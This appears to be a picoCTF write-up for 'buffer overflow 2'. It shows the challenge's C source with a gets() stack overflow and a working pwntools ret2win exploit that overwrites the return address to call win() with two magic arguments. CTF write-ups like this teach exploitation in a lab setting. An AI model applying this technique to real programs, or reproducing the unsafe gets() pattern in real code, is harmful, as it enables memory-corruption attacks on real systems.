

**picoCTF - buffer overflow 2**

### Binary protection


This binary is better protected, then the previous one, now we have NX bit enabled (Non-executable stack), which means that we can't execute our own shellcode, however it doesn't prevent buffer overflow itself.

### Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Our goal is to leverage buffer overflow vulnerability in `vuln()` function and jump to `win()`, however `win()` takes two arguments, which are stored on the stack, and then performs some type of validation (checks if provided args are 0xCAFEF00D and 0xF00DF00D).

So, we need to:

1. Get the address value of `win()`
2. Overflow the buffer and provide `win` address with appropriate args.

### Exploit

```python
from pwn import *

process = remote("saturn.picoctf.net","50040")
process.recvuntil(b"Please enter your string:")
log.info("Sending payload")


payload = b"A"*112 + p32(0x08049296) + b"BBBB" + p32(0xCAFEF00D) + p32(0xF00DF00D)
process.sendline(payload)
process.recv()
process.interactive()
```





